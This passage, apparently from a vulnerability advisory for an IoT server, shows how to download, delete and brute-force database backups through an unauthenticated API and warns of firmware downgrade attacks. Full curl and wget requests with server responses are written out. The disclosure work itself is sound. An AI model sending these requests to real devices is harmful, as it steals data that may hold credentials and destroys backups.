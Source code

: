 Device will reboot to restore the arbitrarily chosen backup

Downloading backups:

Sending an HTTP GET to `/service/v1/db/backup` with `filename` as a parameter
will yield you the requested backup file. This name can either be known
beforehand or brute forced easily.

``` shell
curl -i -s -k -X 'GET'																			\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: */*'																				\
-H 'Accept-Language: en-US,en;q=0.5'															\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'X-Requested-With: XMLHttpRequest'															\
-H 'Connection: close'																			\
'https://iot-server/service/v1/db/backup?fileName=VRIOT_DB_2019-09-27-00-48-59_GMT.tar.gz'


HTTP/1.1 200 OK
...
{"message": {"ok": 1, "file_path": "/static/dbbackup/VRIOT_DB_2019-09-27-00-48-59_GMT.tar.gz"}}	

wget https://iot-server/static/dbbackup/VRIOT_DB_2019-09-27-00-48-59_GMT.tar.gz
```

Deleting backups:

Sending an HTTP DELETE request to `/service/v1/db/backup` will enable the
deletion of backup files. The filename of the backup is supplied through the
parameter.

``` shell
curl -i -s -k -X 'DELETE'																		\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: */*'																				\
-H 'Accept-Language: en-US,en;q=0.5'															\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'Content-Type: application/json'																\
-H 'X-Requested-With: XMLHttpRequest'															\
-H 'Content-Length: 54'																			\
-H 'Connection: close'																			\
--data-binary '{"fileName":"VRIOT_DB_2019-09-27-03-53-40_GMT.tar.gz"}'							\
'https://iot-server/service/v1/db/backup'
```

---

_Firmware Version Manipulation_

The service located in `/service/upgrade/flow` allows changing the firmware of
the device. This allows downgrade attacks, where a potential attacker may change
the firmware to a vulnerable one.
